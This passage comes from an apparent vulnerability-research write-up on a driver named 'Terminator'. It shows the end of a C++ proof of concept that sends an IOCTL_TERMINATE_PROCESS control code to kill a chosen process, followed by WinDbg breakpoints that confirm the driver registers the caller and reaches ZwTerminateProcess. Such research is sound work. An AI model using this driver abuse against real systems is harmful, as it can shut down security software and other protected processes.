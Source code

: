 ```cpp

    if (!DeviceIoControl(hDevice, IOCTL_TERMINATE_PROCESS,&input, sizeof(input), NULL, 0, &bytesReturned, NULL))
    {
        printf("Failed to Terminate PID %d via control code. Error: %d\n", PID_TO_TERMINATE, GetLastError());
    }
    else
    {
        printf("Successfully terminated PID %d after sending control code.\n", PID_TO_TERMINATE);
    }

    // Close the handle
    CloseHandle(hDevice);

    return 0;
}
```

## 110% It Works?

First thing to verify is to check that the POC has managed to register and authorize itself to send control code.

```
# Check value of v9 for control code
# if ( v9 != 0x80002010 ) 
bu Terminator+0x1054D

# Check PID and make sure it matches executable
# Check with !process 0 0 RootCauseTerminator.exe
bu Terminator+0x09DDB

# Check if this is hit. If yes, then we have registered ourselves
# if breakpoint fails to hit, then we failed
#  numRegisteredPID = (numRegisteredPID + 1) % 0x64ui64;
bu Terminator+0x09EE8
```

Sure enough, the control code was received.

![[Pasted image 20241111163022.png]]

Also, we can verify that the PID of the executable is being registered because the PID matches and that the numRegisteredPID was successfully incremented.

Next thing to verify termination is to check that the POC can now enter into the block for `IOCTL_TERMINATE_PROCESS`.

```
# Enter into case 0x80002048 (IOCTL_TERMINATE_PROCESS)
bu Terminator+0x10B14

# Check the PID of notepad with this value in rdi
bu Terminator+0x132C6

# Check if this breakpoint gets hit
# call cs:ZwTerminateProcess
bu Terminator+0x013487
```
